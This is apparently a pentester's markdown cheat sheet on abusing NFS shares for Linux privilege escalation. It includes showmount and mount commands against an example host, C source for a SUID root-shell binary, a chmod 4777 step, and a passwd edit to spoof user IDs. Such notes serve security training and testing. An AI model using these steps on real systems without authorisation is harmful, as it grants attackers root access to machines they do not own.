 # NFS Share/Unmounted Filesystem

## Overview

* if you find that a machine has a NFS share you might be able to use that to escalate privileges, depending on how it is configured

## If Already on Target System

```
# view the mounts
mount -l
cat /etc/fstab

# view available disks
cat /bin/lsblk
```

## First, Check if the Target Machine has any NFS Shares

```bash
showmount -e 192.168.1.101
```

## If it Does, then Mount it to the Attacking Filesystem

```bash
mount 192.168.1.101:/foldername ~/tmp/
```

* if that succeeds then you can go to /tmp/share
* might be some interesting stuff there, but even if there isn't you might be able to exploit it
* ff you have write privileges you can create files
* test if you can create files, then check with your low-priv shell what user has created that file
* if it says that it is the root-user that has created the file it is good news
* then you can create a file and set it with suid-permission from your attacking machine, And  execute it with your low privilege shell
* this code can be compiled and added to the share
* before executing it by your low-priv user make sure to set the suid-bit on it

```bash
chmod 4777 exploit
```

* then this

```bash
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>
int main()
{
setuid(0);
system("/bin/bash");
return 0;
}
```

## How to Mount a File System

```bash
# 1 way
mount -l
cat /etc/fstab

# for older file systems, "-o nolock"
# lets say we find /home with scanning
sudo mount -o nolock 10.10.10.10:/home ~/local_path/

# if a file is only viewable/etc by a specific user, find the UUID of the user
# by checking file permissions, then create a new user on your machine that
# has that UUID so the file can be viewed
# use the commmand below to change the UUID of the new user you just created,
# then switch users
sudo sed -i -e 's/old_uuid/new_uuid/g' /etc/passwd
```

## Additional Resources

* [https://vulp3cula.gitbook.io/hackers-grimoire/post-exploitation/privesc-linux](https://vulp3cula.gitbook.io/hackers-grimoire/post-exploitation/privesc-linux)
* [https://www.errno.fr/nfs\_privesc.html](https://www.errno.fr/nfs\_privesc.html) (priv esc)
